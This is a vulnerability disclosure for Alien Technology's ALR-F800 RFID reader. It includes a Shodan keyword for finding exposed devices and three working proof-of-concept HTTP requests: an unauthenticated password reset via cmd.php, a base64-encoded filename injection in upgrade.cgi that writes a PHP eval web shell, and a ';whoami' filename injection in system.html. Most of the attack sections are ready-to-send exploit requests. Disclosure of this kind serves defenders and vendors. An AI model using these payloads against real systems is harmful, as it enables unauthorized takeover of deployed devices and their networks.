 # Information

**Affected product:** ALR-F800

**Vendor of the product:** Alien Technology

**Product page:** https://www.alientechnology.com/products/readers/alr-f800/

**Affected system version: **19.10.24.00 and lower

**Firmware download:** https://www.alientechnology.com/download/alr-f800-software/?wpdmdl=7609&ind=MTU3NTQ4MjY2NndwZG1fYWxpZW4tZmlybXdhcmVfMTkuMTAuMjQuMDBfZjgwMC5hZWQ

**Shodan keyword: **http.title:"ALR-F800"

**Reported by:**  Wentao Yang (pushe4x@gmail.com)



# Description

ALR-F800 is a high-performance RFID reader and features Gatescape web interface.

Several vulnerabilities have been found in the` /cmd.php`、`/cgi-bin/upgrade.cgi`、`/admin/system.html`，allowing unauthorized attackers to modify web interface login credentials and execute arbitrary commands via a crafted request.



# Unauthorized Command Execution Vulnerabilities

The vulnerability exists in `/var/www/cmd.php`, where unauthorized attackers can execute arbitrary CLI commands, including modifying network configurations and login credentials.

![image-20240719165844844](https://raw.githubusercontent.com/Push3AX/vul/main/pic/image-20240719165844844.png)

## POC:

Send the following request to the vulnerable server:

```http
POST /cmd.php HTTP/1.1
Host: VULNERABLE_SERVER_IP
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

cmd=password=password
```

After the attack, the default account (username `Alien`) for the web interface and SSH will have its password reset to `password`.



# Command injection vulnerability 1

This vulnerability exists in `/var/www/cgi-bin/upgrade.cgi`. This file takes the user-uploaded update package, appends the filename to the update command without any filtering, and then calls `popen` with the command string executed as an argument.

![image-20240719161359488](/https://raw.githubusercontent.com/Push3AX/vul/main/pic/image-20240719161359488.png)

After gaining system login access through the previous vulnerability, an attacker can execute system commands by crafting a malicious filename. 

Since the command execution does not echo back and cannot contain slashes, it is recommended to use the following POC to write a WebShell to the web page.

## POC:

Encode the command to be executed using Base64, for example:

`echo 'echo "<?php eval(\$_REQUEST['cmd']);?>" > /var/www/shell.php' | base64`

The encoded result is:

`ZWNobyAiPD9waHAgZXZhbChcJF9SRVFVRVNUWydjbWQnXSk7Pz4iID4gL3Zhci93d3cvc2hlbGwucGhw`

Finally, send the following request to the vulnerable server:

```http
POST /cgi-bin/upgrade.cgi HTTP/1.1
Host: VULNERABLE_SERVER_IP
Authorization: Basic YWxpZW46cGFzc3dvcmQ=
Content-Length: 301
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQ3keNKAe5AQ9G7bs

------WebKitFormBoundaryQ3keNKAe5AQ9G7bs
Content-Disposition: form-data; name="uploadedFile"; filename=";echo ZWNobyAiPD9waHAgZXZhbChcJF9SRVFVRVNUWydjbWQnXSk7Pz4iID4gL3Zhci93d3cvc2hlbGwucGhw| base64 -d | sh"
Content-Type: application/octet-stream

Hi！
------WebKitFormBoundaryQ3keNKAe5AQ9G7bs

```

After the attack, the WebShell will be written to：

`https://VULNERABLE_SERVER_IP//shell.php?cmd=phpinfo();`



# Command injection vulnerability 2

This vulnerability exists in `/admin/system.html`. By exploiting this vulnerability, attackers can execute system commands by uploading a file with a malicious filename. 

![image-20240730083747447](https://raw.githubusercontent.com/Push3AX/vul/main/pic/image-20240730083747447.png)

## POC:

Send the following request to the vulnerable server:

```http
POST /admin/system.html HTTP/1.1
Host: VULNERABLE_SERVER_IP
Content-Length: 412
Cache-Control: max-age=0
Authorization: Digest username="alien", realm="Authorized users only", nonce="e01f9b86814aced6260f94fdfc978b21", uri="/admin/system.html", response="cbc415aecfcceb4a4afa23973960b8da", qop=auth, nc=000000cc, cnonce="dd03b48ea65cac94" #REPLACE THIS
Connection: keep-alive

------WebKitFormBoundaryJpks6wYXiOago8MS
Content-Disposition: form-data; name="upload_max_filesize"

3M
------WebKitFormBoundaryJpks6wYXiOago8MS
Content-Disposition: form-data; name="uploadedFile"; filename=";whoami"
Content-Type: application/octet-stream

123
------WebKitFormBoundaryJpks6wYXiOago8MS
Content-Disposition: form-data; name="action"

Install
------WebKitFormBoundaryJpks6wYXiOago8MS--
```

After the attack, the command `whoami` will be executed on the server.
